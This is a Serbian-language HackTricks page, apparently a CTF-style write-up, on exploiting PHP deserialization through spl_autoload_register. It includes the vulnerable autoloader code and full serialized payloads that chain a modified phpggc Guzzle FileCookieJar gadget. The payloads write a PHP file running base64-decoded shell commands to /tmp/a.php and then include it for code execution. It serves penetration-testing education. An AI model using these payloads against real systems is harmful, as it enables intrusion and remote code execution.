 # PHP - Deserialization + Autoload Classes

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

Prvo, trebali biste proveriti šta su [**Autoload klase**](https://www.php.net/manual/en/language.oop5.autoload.php).

## PHP deserijalizacija + spl\_autoload\_register + LFI/Gadget

Nalazimo se u situaciji gde smo pronašli **PHP deserijalizaciju u web aplikaciji** bez **biblioteke koja je ranjiva na gadgete unutar `phpggc`-a**. Međutim, u istom kontejneru se nalazi **druga web aplikacija sa ranjivim bibliotekama**. Stoga je cilj da se **učita kompozer loader druge web aplikacije** i iskoristi ga da se **učita gadget koji će iskoristiti tu biblioteku sa gadgetom** iz web aplikacije ranjive na deserijalizaciju.

Koraci:

* Pronašli ste **deserijalizaciju** i **nema gadgeta** u trenutnom kodu aplikacije
* Možete iskoristiti funkciju **`spl_autoload_register`** kao što je prikazano u nastavku da biste **učitali bilo koji lokalni fajl sa ekstenzijom `.php`**
* Za to koristite deserijalizaciju gde će ime klase biti unutar **`$name`**. Ne možete koristiti "/" ili "." u imenu klase u serijalizovanom objektu, ali **kod** zamenjuje **donje crte** ("\_") **sa kosim crtama** ("/"). Dakle, ime klase kao što je `tmp_passwd` će biti transformisano u `/tmp/passwd.php` i kod će pokušati da ga učita.\
  Primer gadgeta će biti: **`O:10:"tmp_passwd":0:{}`**

```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```

{% hint style="success" %}
Ako imate **upload fajla** i možete da otpremite fajl sa **`.php` ekstenzijom**, možete **direktno iskoristiti ovu funkcionalnost** i dobiti RCE.
{% endhint %}

U mom slučaju, nisam imao ništa slično, ali unutar **iste kontejnera** postojala je druga veb stranica kompozera sa **ranjivom bibliotekom za `phpggc` gedžet**.

* Da biste učitali ovu drugu biblioteku, prvo morate **učitati kompozer loader te druge veb aplikacije** (jer trenutna aplikacija neće pristupiti bibliotekama druge aplikacije.) **Znajući putanju aplikacije**, to možete veoma lako postići sa: **`O:28:"www_frontend_vendor_autoload":0:{}`** (U mom slučaju, kompozer loader se nalazio u `/www/frontend/vendor/autoload.php`)
* Sada možete **učitati** loader **druge aplikacije**, pa je vreme da **generišete phpggc** **payload** koji ćete koristiti. U mom slučaju, koristio sam **`Guzzle/FW1`**, što mi je omogućilo da **pišem bilo koji fajl u fajl sistem**.
* NAPOMENA: **Generisani gedžet nije radio**, da bi radio, **izmenio** sam payload **`chain.php`** od phpggc i postavio **sve atribute** klasa **sa privatnih na javne**. Ako to nisam uradio, nakon de-serijalizacije stringa, atributi kreiranih objekata ne bi imali vrednosti.
* Sada imamo način da **učitamo loader druge aplikacije** i imamo phpggc payload koji radi, ali moramo **ovo uraditi U ISTOM ZAHTEVU da bi loader bio učitan kada se gedžet koristi**. Za to sam poslao serijalizovan niz sa oba objekta kao:
* Možete videti **prvo učitavanje loadera, a zatim payloada**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Sada možemo **kreirati i pisati datoteku**, međutim, korisnik **ne može pisati u bilo kojem folderu unutar web servera**. Dakle, kao što možete videti u payload-u, PHP poziva **`system`** sa nekim **base64** koji je kreiran u **`/tmp/a.php`**. Zatim, možemo **ponovno koristiti prvi tip payload-a** koji smo koristili kao LFI da učitamo kompozitorov loader druge web aplikacije **da učitamo generisanu datoteku `/tmp/a.php`**. Samo je dodajte u deserialization gadget:

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Rezime payload-a**

* **Učitajte composer autoload** drugog veb aplikacije u istom kontejneru
* **Učitajte phpggc gadget** da biste zloupotrebili biblioteku druge veb aplikacije (početna veb aplikacija podložna deserializaciji nije imala nijedan gadget u svojim bibliotekama)
* Gadget će **kreirati datoteku sa PHP payload-om** u /tmp/a.php sa zlonamernim komandama (korisnik veb aplikacije ne može pisati u bilo kojem folderu bilo koje veb aplikacije)
* Poslednji deo našeg payload-a će **učitati generisanu PHP datoteku** koja će izvršiti komande

Bilo je potrebno **dva puta pozvati ovu deserializaciju**. U mom testiranju, prvi put je datoteka `/tmp/a.php` kreirana, ali nije učitana, a drugi put je pravilno učitana.

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **oglašavanje vaše kompanije u HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
